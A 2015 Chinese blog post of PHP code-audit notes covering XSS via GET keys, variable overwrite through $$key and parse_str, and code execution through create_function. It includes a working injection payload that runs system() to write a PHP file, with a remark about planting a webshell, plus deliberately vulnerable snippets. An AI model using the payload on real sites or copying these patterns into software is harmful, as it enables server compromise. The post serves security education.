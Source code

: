title: PHP代码审计小记
date: 2015-07-21 23:01:39
tags: PHP
categories: H-blog
---
![php](/img/php.jpg)
<!--more-->
代码部分来自 <https://code.google.com/p/pasc2at/wiki/SimplifiedChinese>

## 0x00 这种，现在应该没人会这么写吧？
```php
<?php
//key.php?<script>alert(1);</script>=1&bbb=2
//print_R($_GET); 
 foreach ($_GET AS $key => $value)
{
        print $key."\n";
}
?>
```
## 0x01 变量覆盖，并不懂为啥有人会这么写

```php
<?php
//var.php?a=fuck      
$a='hi';
foreach($_GET as $key => $value) {
        $$key = $value;
}
print $a;    //输出fuck
?>
```

## 0x02 同样也是变量覆盖。。

```php
//var.php?var=new
$var = 'init';                     
parse_str($_SERVER['QUERY_STRING']);  //$_SERVER['QUERY_STRING']的值为get参数
//parse_str(string,array) 设置变量的函数，array没设置就会覆盖已存在的变量
print $var;
```

## 0x03 代码执行漏洞

```php
//how to exp this code
$sort_by=$_GET['sort_by'];
$sorter='strnatcasecmp';
$databases=array('test','test');
$sort_function = '  return 1 * ' . $sorter . '($a["' . $sort_by . '"], $b["' . $sort_by . '"]); ';
usort($databases, create_function('$a, $b', $sort_function));
```
这个我研究了下, 有点屌啊~~

首先, 漏洞永远在于用户的可控点上, 所以上面的代码漏洞只可能存在于 `$sort_function = '  return 1 * ' . $sorter . '($a["' . $sort_by . '"], $b["' . $sort_by . '"]); ';` 之中

payload: 
`sort_by=1"],$b["2"]) * system("echo '<?php phpinfo(); ' > a.php ");//`

只要权限够, 就能写入一句话, 然后get webshell..

类似的函数还有:
```
assert()
call_user_func()
call_user_func_array()
create_function()
变量函数
...
```

























